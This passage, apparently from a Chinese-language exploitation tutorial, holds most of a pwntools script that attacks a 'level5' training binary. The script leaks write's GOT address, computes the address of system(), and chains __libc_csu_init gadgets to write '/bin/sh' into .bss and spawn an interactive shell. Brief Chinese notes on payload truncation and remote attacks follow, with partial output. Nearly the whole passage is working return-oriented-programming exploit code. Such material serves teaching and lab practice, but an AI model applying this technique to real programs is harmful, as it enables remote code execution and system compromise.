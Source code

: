 p.recvuntil("Hello, World\n")

print "\n#############sending payload1#############\n"
p.send(payload1)
sleep(1)

write_addr = u64(p.recv(8))
print "write_addr: " + hex(write_addr)

system_addr = write_addr - off_system_addr
print "system_addr: " + hex(system_addr)

bss_addr=0x601028

p.recvuntil("Hello, World\n")

#rdi=  edi = r13,  rsi = r14, rdx = r15 
#read(rdi=0, rsi=bss_addr, rdx=16)
payload2 =  "\x00"*136
payload2 += p64(0x400606) + p64(0) + p64(0) + p64(1) + p64(got_read) + p64(0) + p64(bss_addr) + p64(16) # pop_junk_rbx_rbp_r12_r13_r14_r15_ret
payload2 += p64(0x4005F0) # mov rdx, r15; mov rsi, r14; mov edi, r13d; call qword ptr [r12+rbx*8]
payload2 += "\x00"*56
payload2 += p64(main)

print "\n#############sending payload2#############\n"
p.send(payload2)
sleep(1)

p.send(p64(system_addr))
p.send("/bin/sh\0")
sleep(1)

p.recvuntil("Hello, World\n")

#rdi=  edi = r13,  rsi = r14, rdx = r15 
#system(rdi = bss_addr+8 = "/bin/sh")
payload3 =  "\x00"*136
payload3 += p64(0x400606) + p64(0) +p64(0) + p64(1) + p64(bss_addr) + p64(bss_addr+8) + p64(0) + p64(0) # pop_junk_rbx_rbp_r12_r13_r14_r15_ret
payload3 += p64(0x4005F0) # mov rdx, r15; mov rsi, r14; mov edi, r13d; call qword ptr [r12+rbx*8]
payload3 += "\x00"*56
payload3 += p64(main)

print "\n#############sending payload3#############\n"

sleep(1)
p.send(payload3)

p.interactive()
要注意的是，当我们把程序的io重定向到socket上的时候，根据网络协议，因为发送的数据包过大，read()有时会截断payload，造成payload传输不完整造成攻击失败。这时候要多试几次即可成功。如果进行远程攻击的话，需要保证ping值足够小才行（局域网）。最终执行结果如下：

#!bash
$ python exp7.py 
[+] Started program './level5'
got_write: 0x601000
got_read: 0x601008
off_system_addr: 0xa1c40
